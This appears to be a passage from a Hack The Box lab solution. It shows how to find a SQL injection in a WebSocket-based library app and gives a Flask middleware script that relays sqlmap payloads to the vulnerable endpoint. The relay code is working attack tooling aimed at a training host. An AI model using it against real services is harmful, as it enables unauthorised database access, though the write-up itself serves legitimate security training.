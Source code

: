 Subsequently, students need to open `Burp`, turn `Intercept` off, open the integrated browser, and navigate to `library.inlanefreight.local:8001`:

![[HTB Solutions/CWEE/z. images/eee9c192b6b61fa06efbb442941a27fd_MD5.jpg]]

When searching if a user has any messages, students will notice that `Burp` shows WebSocket connections:

![[HTB Solutions/CWEE/z. images/4dd7438a97120266736b7d3ba256a08b_MD5.jpg]]

The web application sends the username via the JSON parameter "username" to the `/dbconnector` endpoint:

![[HTB Solutions/CWEE/z. images/5315ecaa766fcc5c8e379f625687671b_MD5.jpg]]

The backend suffers from SQLi, and because the web application is using WebSockets, students need to utilize a `sqlmap` middleware to proxy SQLi payloads through it:

Code: python

```python
from flask import Flask, request
from websocket import create_connection
import json

app = Flask(__name__)

# Make sure to replace STMIP
WS_URL = 'ws://library.inlanefreight.local:8001/dbconnector'

@app.route('/')
def index():
    req = {}
    req['username'] = request.args.get('username', '')

    ws = create_connection(WS_URL)
    ws.send(json.dumps(req))
    r = json.loads(ws.recv())
    ws.close()

    if r.get('error'):
        return r['error']

    return r['messages']

app.run(host='127.0.0.1', port=8000)
```

After saving it into a file, students need to run it:

Code: shell

```shell
python3 sqlmapMiddleware.py
```
